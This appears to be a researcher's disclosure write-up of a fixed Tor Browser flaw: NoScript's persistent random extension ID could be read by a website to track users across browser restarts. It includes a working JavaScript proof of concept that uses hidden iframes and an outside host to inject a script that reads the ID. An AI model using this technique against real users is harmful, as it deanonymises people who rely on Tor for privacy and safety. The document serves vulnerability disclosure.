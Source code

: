 ```yaml
---
title: Identify Tor user across browser restarts (Fixed)
---
```


"Tor Browser aims to make all users look the same, making it difficult for you to be fingerprinted based on your browser and device information."

NoScript is installed by default and cant be removed.
Other browser extensions are discouraged since there normally fingerprintable <https://gitlab.torproject.org/tpo/applications/tor-browser/-/issues/41581#note_2949932>

On the first install of the Tor browser, NoScript gets assigned a random extension ID that never changes. Because of this Firefox bug: <https://bugzilla.mozilla.org/show_bug.cgi?id=1372288>

This is different to the chromium way of using a universal extension ID for manifest v2 which while did allow detecting if an extension was installed there was no random extension/user ID generated.
Manifest v3 does have a `use_dynamic_url` feature that claims to be "per session and regenerated on browser restart or extension reload"

If the user increases there browser security level to "Safer" or in the NoScript settings page disables the media toggle this ID would be shared to an attacker controlled website using the following PoC:

```js
// Just a blank video
f = document.createElement("iframe");
f.hidden = true;
f.src = "https://terjanq.me/xss.php?ct=video/mp4";
document.body.appendChild(f);

payload = `
let x = setInterval(() => {
 try {
  parent[0].document.links[0].style.opacity = 1;
  let link = parent[0].document.head.getElementsByTagName('link')[0];
  if (link && link.href) {
   let origin = new URL(link.href).hostname;
   alert('User ID: ' + origin);
   clearInterval(x);
  }
 } catch {}
}, 10);
`;

setTimeout(() => {
  f2 = document.createElement("iframe");
  f2.hidden = true;
  // runs code same-origin as video
  f2.src = "https://terjanq.me/xss.php?js=" + encodeURIComponent(payload);
  document.body.appendChild(f2);
}, 100);
```

This leak can be found at: <https://github.com/hackademix/nscl/blob/ef1ecbea27e39e255d988a8fb0233ab53c46e57c/content/PlaceHolder.js#L34>

It was fixed in version 11.4.28 by calling `tabs.insertCSS` instead of referencing the css file with `runtime.getURL`

NoScript: <https://github.com/hackademix/noscript/commit/1754429ea1bc458f802c4e4f49f8e8e4ab15f403>  
NSCL: <https://github.com/hackademix/nscl/commit/4c94bf24f117277f5c00878005d91d0d7aaa18e4>
![Tor](https://ndevtk.github.io/writeups/tor.png)

# Was it awarded?

No because it was reported directly but may have been under "Low ($100 - $1000)"
<https://hackerone.com/torproject?type=team>

